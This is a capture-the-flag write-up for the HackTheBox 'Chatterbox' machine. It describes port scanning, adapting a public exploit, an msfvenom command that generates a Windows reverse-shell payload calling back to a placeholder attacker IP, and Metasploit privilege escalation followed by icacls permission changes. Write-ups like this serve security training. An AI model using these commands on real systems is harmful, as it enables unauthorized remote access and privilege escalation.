






# HackTheBox - Chatterbox

I started with a common portscan.

`nmap -p- -T4 -sV -sC <IP>`

First I wanted to know what is on port `9255` and quickly found an [exploit](https://www.exploit-db.com/exploits/36025) for the corresponding service.

The exploit code had to be modified a bit.

In the exploit you can see a comment for generating the shellcode.

I set up a listener with `metasploit` and made the corresponding shellcode with the following `msfvenom` command which I replaced with the one from the exploit.

__Generate Shellcode__

`msfvenom -a x86 --platform Windows -p  windows/shell_reverse_tcp lhost=<ATTACKER_IP>> lport=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

Furthermore, the IP had to be modified as well!

Now I could run the exploit and got a reverse sehll as user alfred.

And the first flag was taken.

## Privilege Escalation

After the done box I learned that my away was a little different.

I enumerated the system first of all and saw that we are dealing with a `Windows 7 Professional`.

This caused me to search for usable local privesc exploits with metasploits `exploit_suggester`.

The `windows/local/ntusermndragover` worked and I got a more privileged shell now.

Okay, looks good I thought and we can get the flag.

However, I got an `Access is Denied` only spit out on the command line.

So I looked at the right one with `icacls` and modified it to be able to read it and get the final flag.

## Appendix

- The flag could also have been modified by the user Alfred already and then read in.

- Furthermore, there were `Autologon credentials` on the system which could have been used for a PE as well.

